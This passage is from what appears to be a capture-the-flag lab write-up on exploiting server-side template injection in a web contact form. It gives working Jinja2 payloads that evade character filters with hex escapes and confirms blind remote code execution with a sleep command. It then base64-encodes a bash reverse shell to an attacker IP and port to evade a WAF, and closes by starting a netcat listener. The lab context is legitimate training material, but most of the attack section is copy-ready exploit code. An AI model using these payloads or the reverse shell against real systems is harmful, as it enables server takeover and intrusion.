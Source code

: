But the payload seem to have bad characters in it like the ``'`` and ``{{}}`` so i had to replace the ``'`` with the ``"`` and the ``{{}}`` with the single ``{}`` then add keyword ``include ``to which it is not blocked.The  ``_``char  is written in the hex us ``\x5f`` to which ``man ascii`` confirms even in python3 when you print the hex  ``\x5f`` it gives you
 ``_`` 
 
 ![[man ascii.png]]
 
 ![[python x5f.png]]
 
 #### code-working payload check
 note:insert payload in the ``contact= ``
 ```bash
 {% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep 5")|attr("read")()%}
 ```
 
 So after getting the payload i decide to test the payload by forcing it to ``sleep fo 5 miliseconds ``so as to test if the payload works and apparently the payload works which confirms`` blind Remote Code Execution(RCE) via Server Side Template Injection(SSTI)``.
 
 ![[sleep 5.png]]
 
 Since our payload looks fine so we have to adjust our payload to obtain a r``reverse shell``  using ``base64`` encoding to bypass WAF filters;
 #### code-encoding reverse shell to base64
 ```bash
 echo 'bash -i >& /dev/tcp/10.10.16.51/9001 0>&1' | base64 -w 0 
 ```
 
 ![[echo.png]]
 
 The final payload looks us following;
 #### code-final payload
 ```bash
 {% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41MS85MDAxIDA+JjEK | base64 -d | bash")|attr("read")()%}
 ```
 
 Then we paste our complete payload in contact .in burpsuite we have to url encode the ``reverse shell payload`` to filter out bad characters in the payload 
 
 ![[payl.png]]
 
 Then we open an nc listener  on port 9001
 #### code-Listening
 ```bash
 nc -lnvp 9001
 ```
 